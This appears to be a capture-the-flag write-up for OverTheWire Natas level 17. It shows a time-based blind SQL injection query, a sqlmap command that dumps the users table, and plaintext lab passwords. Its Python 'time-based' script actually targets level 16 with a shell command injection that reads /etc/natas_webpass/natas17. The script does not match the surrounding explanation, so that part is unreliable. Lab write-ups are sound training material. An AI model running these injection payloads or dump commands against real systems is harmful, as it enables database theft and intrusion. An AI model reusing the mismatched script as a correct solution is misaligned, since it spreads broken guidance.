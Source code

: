 # OverTheWire Wargames

## Natas Level 16 --> Level 17

**Username:** natas17

**Password:** 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

**URL:**      http://natas17.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see that there isn't any output we got back from the server, so we need to think out something else to determine the response of the select statment
* We can use 'SLEEP(n)' to determine from the response time whether entered character exists in the password or not, using this query (Time-based attacks):
```
 SELECT * from users where username="natas18" AND password LIKE BINARY '{char}%' AND SLEEP(5) --
```
* Notice that the condition after 'AND' execute only if the previous condition return TRUE, so if the password condition return true the response should be delayed by 5sec
* We can implements this aproach in two ways:
##### Python Script
* To perform brute-force to retrieve the password using Time-based attack use this python script:
```py
import requests
import string

chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
base_url = 'http://natas16.natas.labs.overthewire.org/?needle='
password = ''

for i in range(32):
    cnt = 0
    while True:
        payload = password + chars[cnt]
        r = requests.get(base_url+f'Africans$(grep ^{payload} /etc/natas_webpass/natas17)', auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        cnt += 1

        if not 'Africans' in r.text:
            password = payload
            print(password)
            break
```

##### Sqlmap
* Use this command to retreive the password using sqlmap *(Database name and columns name can be found in the sourcecode)*
```sh
  sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=T --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch
```
* Here is an explaination of each flag:
> -u              URL
> --auth-type     HTTP authentication
> --auth-cred     HTTP authentication credentials (name:password)
> --data          Data string to be sent
> --level         Number of checks to be performed.  (Range is 1 to 5. Default is 1.)
> --risk          Types of payloads to use. Higher numbers could cause problems for the server. (Range is 1 to 3.  Default is 1.)
> --technique     T is for Time-based attacks
> --threads       Max number of concurrent HTTP(s) requests
> --dbms          DataBase Management System 
> -D              Database name        
> -T              Table name
> -C              Column name(s)
> --dump          Dump DBMS database table entries
> --batch         Never ask for user input, use the default behaviour


** You got the password!!

### Natas18 Password
> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
